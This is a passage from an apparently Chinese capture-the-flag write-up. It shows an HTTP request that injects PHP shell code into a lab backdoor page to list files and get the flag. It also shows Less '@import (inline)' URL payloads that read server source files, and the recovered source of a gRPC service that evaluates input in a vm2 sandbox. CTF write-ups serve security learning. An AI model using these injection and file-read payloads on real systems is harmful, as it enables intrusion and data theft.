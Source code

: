 构造数组绕过长度限制, 直接执行命令查看 flag

```http
GET /backdoor_00fbc51dcdf9eef767597fd26119a894.php?username=exp10it&title[]=123&data[]=<?=`nl+/*`; HTTP/1.1
Host: 172.10.0.5
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.10.0.5
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.10.0.5/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

```

## simple_rpc

less import inline 语法读文件, 参考 P 师傅 Flarum RCE

```
/find_rpc?less=h5{@import%20(inline)%20'rpc.js';}
/find_rpc?less=h5{@import%20(inline)%20'eval.proto';}
/find_rpc?less=h5{@import%20(inline)%20'app.js';}
/find_rpc?less=h5{@import%20(inline)%20'package.json';}
```

rpc.js

```javascript
var PROTO_PATH = __dirname + '/eval.proto';
const {VM} = require("vm2");
var grpc = require('@grpc/grpc-js');
var protoLoader = require('@grpc/proto-loader');
var packageDefinition = protoLoader.loadSync(
    PROTO_PATH,
    {keepCase: true,
        longs: String,
        enums: String,
        defaults: true,
        oneofs: true
    });
var hello_proto = grpc.loadPackageDefinition(packageDefinition).helloworld;

function evalTemplate(call, callback) {
    const vm = new VM();
    callback(null, {message:    vm.run(call.request.template) });
}

function main() {
    var server = new grpc.Server();
    server.addService(hello_proto.Demo.service, {evalTemplate: evalTemplate});
    server.bindAsync('0.0.0.0:8082', grpc.ServerCredentials.createInsecure(), () => {
        server.start();
    });
}

main()
```
